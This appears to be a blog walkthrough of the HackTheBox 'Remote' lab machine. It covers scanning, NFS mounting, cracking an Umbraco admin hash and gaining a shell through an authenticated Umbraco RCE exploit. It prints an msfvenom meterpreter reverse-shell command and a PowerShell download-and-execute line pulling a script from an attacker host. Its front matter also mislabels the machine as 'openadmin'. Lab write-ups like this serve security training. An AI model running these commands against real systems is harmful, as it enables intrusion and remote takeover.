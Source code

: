 ```yaml
---
date: 2020-09-04 23:48:05
layout: post
title: HackTheBox Remote Writeup
subtitle: Hackthebox Remote Writeup.
description: >-
  in this blog i've explained how to solve openadmin machine in hackthebox
image: https://i.ibb.co/P9ByhXj/logo.png
optimized_image: https://i.ibb.co/P9ByhXj/logo.png
category: hackthebox
tags:
  - hackthebox
  - Remote
author: Ahmed Fatouh
paginate: true
---
```



# []() Methodology

* Nmap scan
* find some mounted files.
* find username and password of Umbraco cms
* Execute command with Umbraco exploit and got reverse shell.
* got user.
* Privilege Escalation.

# []() Nmap Scan

* as always, i'll do nmap scan to find out which services running in this machine.

> i found some useful ports like 21 for ftp and **Anonymous FTP login allowed**, 80 for **Microsoft HTTPAPI**.

> **nmap -sC -sV -p- -oN scan.txt 10.10.10.180**

```ruby

Nmap scan report for 10.10.10.180
Host is up (0.44s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m36s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-10T20:52:24
|_  start_date: N/A


```

# []() FTP Anonymous Login

> **first thing we should login to ftp and catch any important files but i didn't find anything.**

| Command        | Username          | Password |
|:-------------|:------------------|:------|
| ftp 10.10.10.80           | anonymous | anonymous  |

![ftp](https://i.ibb.co/1sr2KmP/ftp.png)

# []() Checking the Web-Page

* the web page was very simple and contain some useful data like usernames.

![](https://i.ibb.co/tZtRStB/webpage1.png)

* and here's some usernames.

![](https://i.ibb.co/VYL2nQH/wbpage2.png)

* as always i tried to bruteforce the username and password for the smb but i failed so let's enumerate some.

* when i ran gobuster i found an dir for umbraco cms.

> **gobuster dir -u http://10.10.10.180/ -w /usr/share/dirb/wordlists/common.txt -s 200**

![gobuster](https://i.ibb.co/db7f3xZ/gobuster.png)

* and here is the cms login page.

![cms](https://i.ibb.co/ZmTHzBg/cms.png)

* this cms vulnerable to auth RCE so we need some credentials.

> after enumerated some mounted files from the machine i found the user and the password.

| Command1        | Command2          | Command3 |
|:-------------|:------------------|:------|
| /usr/sbin/showmount -e 10.10.10.180           | mkdir mounted_files | sudo mount 10.10.10.180://site_backups ./mounted_files  |

![](https://i.ibb.co/wyKCwdn/mount.png)

> **in the Web.config file, i noticed the connection date will be stored in the Umbraco.sdf.**

![](https://i.ibb.co/w4W9x6c/subl.png)

* let's see what is in Umbraco.sdf. this file in App_Data dir.

![](https://i.ibb.co/m8v96XX/admin.png)


| Username        | Email          | Password |
|:-------------|:------------------|:------|
| admin          | admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa  |

* the password encrypted with SHA1. let's decrypt it.

![](https://i.ibb.co/ZW3fNL2/password.png)

* Password: **baconandcheese**

* let's login to the cms panel.

![](https://i.ibb.co/wpVjHSv/cmspage.png)

* now we can use this [Umbraco-RCE Exploit](https://github.com/noraj/Umbraco-RCE.git) to get reverse shell.

* let's test the exploit.

* first we need a reverse shell to upload it to the machine to give us reverse shell.

> **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=HOST LPORT=PORT -f psh -o reverse-shell.ps1**

* now let's upload our reverse shell to the machine with the exploit.

> **./umbraco_cve.py -u admin@htb.local -p baconandcheese -i 'http://remote.htb' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.xx.xx:80/reverse.ps1')"**

![reverse-shell](https://i.ibb.co/BTq01sQ/reverse-shell.png)

* and we got user flag.

* after some enumeration i found that TeamViewer was installed in this box. so run this command in the meterpreter session.

* here's the administrator password.

![](https://i.ibb.co/JKYhsvG/root.png)

* there is another way to get root with UsoSvc service and you can read about it from here. [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

* let's login as administrator now with evil-winrm.

![](https://i.ibb.co/yqz7qKC/final.png)

* Thanks for reading.
* Cheers!

<script src="https://www.hackthebox.eu/badge/103789"></script>









